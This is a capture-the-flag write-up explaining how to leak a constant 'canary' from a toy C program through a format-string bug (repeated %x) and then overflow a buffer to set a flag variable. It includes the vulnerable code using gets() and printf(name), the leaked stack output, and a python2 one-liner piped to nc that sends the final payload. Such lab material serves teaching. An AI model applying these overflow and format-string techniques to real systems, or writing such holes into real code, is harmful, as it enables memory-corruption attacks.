 # Overview
First, we look at the code:  
```
#include <stdio.h>

int main(int argc, char const *argv[])
{
    long flag = 0;
    long a = SOME_INTEGER_CONSTANT;
    char pass[32] = "abcd";
    char name[32] = {0};

    printf("Enter your name - MAX length 32\n");
    gets(name);
    printf(name);

    printf("Enter your password - MAX length 32\n");
    gets(pass);

    if (a != SOME_INTEGER_CONSTANT) {
        printf("Are you trying to cause problems here? calling the police, you better run.\nMY canary can still breathe!\n");
    } else if (flag) {
        printf("biuCTF{7h15_i5_f4|<e_f149}\n");
    } else {
        printf("Wrong password...\n");
    }
}
```
We can easily see that our goal is to exploit a simple buffer overflow to change the value of *flag* to not be 0.  
But we cannot just exploit a buffer overflow here, because we have a **stack canary** here, which is a common technique to prevent buffer overflows. It is actually a special value which is saved on the top of the buffer, and later is checked to see if it has changed because of a buffer overflow. We can see that the canary isn't random or something, but it is a constant value. So if we know the value of the canary, we can simply overflow the buffer and put the original stack canary in its place, so the program will not know that there was a buffer overflow. But how can we know the value of the stack canary?  

# Format string vulnerability
The **printf** function always gets a format strin gin the first parameter, which is a string which contains format parameters (or not), which are of the form %<format_type>. The printf function treats for every format parameter as a real parameter and prints it. So, if we give printf a format string in its first parameter (for example, ```%x``` many times), the printf will think that it has real arguments to print, so it will print the values of the registers and the stack (depending on the architecture, but in any case values from the stack will finally be printed, because the number of the regusters is final), which are considered to be the arguments.

# The exploit
Now, we can actually exploit a format string to leak the value of the stack canary. At the time of the call to printf, the stack looks like that:  
|  value |   size   |
|--------|----------|
|  flag  | 8 bytes  |
|  a     | 8 bytes  |
|  pass  | 32 bytes |
|  name  | 32 bytes |  

So we can make name to be something like ```%x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x```, and it will leak us the next values:  
```309176b1 0 fdde1980 5a862410 0 5a862558 f0b5ff 25207825 20782520 78252078 25207825 20782520 78252078 0 0 32```  
actually, the values ```25207825 20782520 78252078 25207825 20782520 78252078``` are the hexadecimal encoding of the string we have just entered, which has also overriden part of pass, and we know that the stack canary should sit just after that. We can see that the last printed value is 0x32, and it makes sense that it will be the value of the stack canary, because it sits just in a perfect place for that, so we will try to treat it is the stack canary and see what we got. That value sits in offset 32 from the place where pass sits in the stack, so we will add a 32 byte padding and then add the value 0x32, which we consider for know to be the stack canary, and then just add 4 bytes to override the value of flag, so we will get into the second if to print the flag.  
So after we leaked the value of the stack canary, the final exploit is:  
```python2 -c 'import struct; print ""; print "A"*32 + struct.pack("Q", 0x32) + "A"*4' | nc challenges.ctf.cs.biu.ac.il 3004```  
And finally got the flag:  
```
Enter your name - MAX length 32
Hi, !
Enter your password - MAX length 32
biuCTF{b0f_w1th_c4N4Ry?!}
```

